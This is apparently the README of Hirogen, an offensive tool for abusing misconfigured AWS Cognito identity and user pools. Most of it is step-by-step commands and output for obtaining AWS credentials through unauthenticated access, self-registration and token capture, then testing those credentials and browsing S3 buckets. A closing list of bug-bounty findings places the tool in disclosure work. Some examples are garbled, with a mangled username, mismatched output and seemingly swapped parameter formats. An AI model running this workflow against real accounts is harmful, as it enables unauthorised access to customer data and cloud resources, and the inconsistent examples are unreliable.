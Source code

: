# Hirogen

A federated identity attack tool for AWS Cognito.

## Quick Start:
Install the tool

```sh
git clone git@github.com:c6fc/hirogenv2.git
cd hirogenv2
npm install -g
```

Check for and recover unauthenticated credentials from Cognito User Pool:

```sh
hirogen get-unauthenticated us-west-2:ff6c3f28-fd22-402e-bee7-78b426522f99

[+] Credentials received. Your new identity is:
{
	...
}
```

Sometimes the Identity pool is set to block unauthenticated credentials
```sh
[*] Identity Pool exists, but unauthenticated credentials are not supported.
```

But that's OK! Check for and perform direct registration to Cognito User Pools:
```sh
hirogen check-clientid 3q47qusd82ot7nivggtl2ri6tf us-west-2_RXeMnFJo3
[+] This clientId allows direct registration!

hirogen register-user me@myema.il mYp@ssw0rd '{"phone":"+155551234567"}'
[+] Registration appears to have been successful. Subscriber: ff6c3f28-fd22-402e-bee7-78b426522f99
[*] You must validate your registration before you can log in. Use 'confirm-user' once you receive your code.
```

This means registration was successful, but that you need to verify your email. Check your email and get your verification code, and pass it to Hirogen:
```sh
hirogen confirm-user 123456
[+] Verification successful. You can now use 'login-user'
```

We'll now login and get creds for our user. Since we're using Cognito User pools, we specify 'cognito_idp' as the provider.
```sh
hirogen login-user
[+] Login successful.

hirogen get-credentials cognito_idp us-west-2:5e0d003d-f4bc-4768-8c4e-f589ba7559d0
[+] Credentials received. Your new identity is:
{
	...
}
```

## Support for multiple third-party identity providers

Hirogen can perform **page hollowing** to capture authentication tokens for Google Sign-in and Login with Amazon.

```sh
hirogen login-provider google 950667609206-oetjmj5buch3ekvjjd1mreptnaq3bjjp.apps.googleusercontent.com https://domain-with-google/sign-in.html
```

This pops open a Puppeteer browser window with a Google Sign-in prompt. After signing in, the window will close automatically, and you're ready to get credentials for this identity.

```
[+] Got google token

hirogen get-credentials google
[+] Credentials received. Your new identity is:
{
	...
}
```

## Using recovered credentials

Cool, you've got several ways to get the creds, but what do you do then?

For starters, try a quick permissions audit:
```sh
hirogen test-credentials cognito_idp
[-] ddb_ListTables
[-] ec2_DescribeInstances
[-] ec2_DescribeVPCEndpoints
[-] iam_ListRoles
[-] iam_ListUsers
[+] s3_ArbitaryWrite
[+] s3_ArbitraryListObjects
[+] s3_ArbitraryRead
[+] s3_ListBuckets
```

Looks like we have read, write, listObjects, and listBuckets! Let's inspect it! Using 'hirogen as <provider> <awscli commands...>' to pipe the credentials to the AWS CLI.
```sh
hirogen as cognito_idp s3 ls
2019-02-19 17:15:14 202-backup
2019-04-15 13:39:10 aws-training
2016-09-16 09:24:14 bio.myresume.com
2017-03-18 11:49:54 breakingbad
2017-06-11 20:53:18 callmemaybe
2016-09-15 16:18:41 dayinthelife-prod
2017-10-26 01:51:00 devpipeline-cicd
```

```sh
hirogen as cognito_idp s3 ls 202-backup
                 PRE server-backup/
```

## Using Workspaces
Hirogen stashes useful information persistently in a *workspace*. The default workspace is called 'hirogen', but you can create a new workspace and switch between them easily:

```sh
hirogen use c6fc
[+] Creating new empty workspace [c6fc]
[+] Workspace [c6fc] set as active

hirogen show c6fc
{ ... workspace contents ... }
```

Workspaces are all stored as plaintext JSON files in `~/.hirogen/`

## Parameter persistence and reuse
Interactions with Cognito require LOTS of parameters. Hirogen simplifies these interactions by using a natural workflow that tracks when a particular parameter succeeded in earlier calls, and uses them in subsequent ones. This means that if you follow a sensible approach, you can provide all these parameters piecemeal as you make your way through:

```sh
                       | --clientid |             | --userpoolid |
hirogen check-clientid 3q47qusd82ot7nivggtl2ri6tf us-west-2_RXeMnFJo3
[+] This clientId allows direct registration! # this client id and user pool are valid, so they are saved in the workspace.

                     | --username | | --password|
hirogen register-user me@myema.il    mYp@ssw0rd  # --clientid and --userpoolid are also required, but pulled from the workspace.
[+] Registration appears to have been successful. # Since it was a success, username and password are now also persisted

hirogen login-user # this requires all four of the above, which are all populated from the workspace.
[+] Login successful. # In the back-end, the login token is now saved to the workspace

                        | --provider | | --identitypoolid |
hirogen get-credentials cognito_idp    us-west-2:5e0d003d-f4bc-4768-8c4e-f589ba7559d0
[+] Credentials received. Your new identity is... # Now --provider and --identitypoolid are saved, along with the AWS keys!
```

Alternatively, you can jump straight to the command you want, as long as you provide all the necessary parameters:
```sh
hirogen register-user --username me@myema.il --password mYp@ssw0rd --clientid 3q47qusd82ot7nivggtl2ri6tf --userpoolid us-west-2_RXeMnFJo3
[+] Registration appears to have been successful. # now all four are saved!

hirogen login-user # the same four are now populated from the workspace
[+] Login successful.
```

If you forget (or just haven't run a prior command in this workspace yet) Hirogen will remind you:

```sh
hirogen login-user
[-] --clientid is required. Consider the command check-clientid <clientid> <userpoolid> to populate the workspace.
[-] --userpoolid is required. Consider the command check-clientid <clientid> <userpoolid> to populate the workspace.
```

## Setting defaults for subsequent campaigns
Hirogen lets you set reusable defaults to help speed up interactions across multiple workspaces. Defaults apply to Cognito Username, Password, Attributes, and Authflow.

```sh
hirogen set-default username me@mye.mailme@myema.il
[+] Set default username to [me@myema.il mYp@ssw0rd]

hirogen set-default password mYp@ssw0rd
[+] Set default username to [mYp@ssw0rd]

hirogen register-user
[+] Registration appears to have been successful. Subscriber: ff6c3f28-fd22-402e-bee7-78b426522f99

hirogen login-user
[+] Login successful.
```

Defaults are persisted in the 'core' storage, which can be inspected:

```sh
hirogen core
{
    "last_workspace": "c6fc",
    "defaults": {
        "username": "me@mye.mailme@myema.il",
        "password": "mYp@ssw0rd",
        "authflow": "USER_SRP_AUTH",
        "attributes": ""
    }
}
```

## Locating Cognito parameters
Most parameters used by Cognito and third-party auth sources have a pretty distinct convention, which can help when trying to locate the values you need to pass into Hirogen. Here's an example list:

--clientid: `<region>_[a-zA-Z0-9]{9}` e.g.: us-west-2_RXeMnFJo3  
--userpoolid: `[a-z0-9]{26}` e.g.: 3q47qusd82ot7nivggtl2ri6tf  
--identitypoolid: `<region>:<uuid>` e.g.: us-west-2:5e0d003d-f4bc-4768-8c4e-f589ba7559d0 # Note that Identity IDs and Identity Pool IDs both use this format.

Google Auth Tokens: `[0-9]{12}-[0-9a-z]{32}.apps.googleusercontent.com`  
Amazon AppID: `amzn1.application-oa2-client.[0-9a-f]{32}`


## Bug Bounties & Kudos

* A major manufacturer website exposed customer data: $3,000 paid
* A reputation management company exposed customer data, with writeable CI/CD pipeline and static site assets: Kudos
* A lifestyle and media company front-end Kubernetes cluster was accessible: Kudos
* A restaurant franchise website's static assets were modifiable: Kudos
* A staffing agency exposed applicant resumes: Kudos
* A gaming enthusiast website's static assets and leaderboards were modifiable: Kudos
* A celebrity's personal website allowed read-write to videos in s3: Kudos
* A psychology organization exposed training and example materials to self-registered cognito users: Kudos
* An AWS account belonging to an individual granted AdministratorAccess to self-registered Cognito users: Fixed, unacknowledged
* A clothing designer exposed order and customer information with modifiable CI/CD pipeline assets: Fixed, unacknowledged


Dozens of others have been notified but have not responded.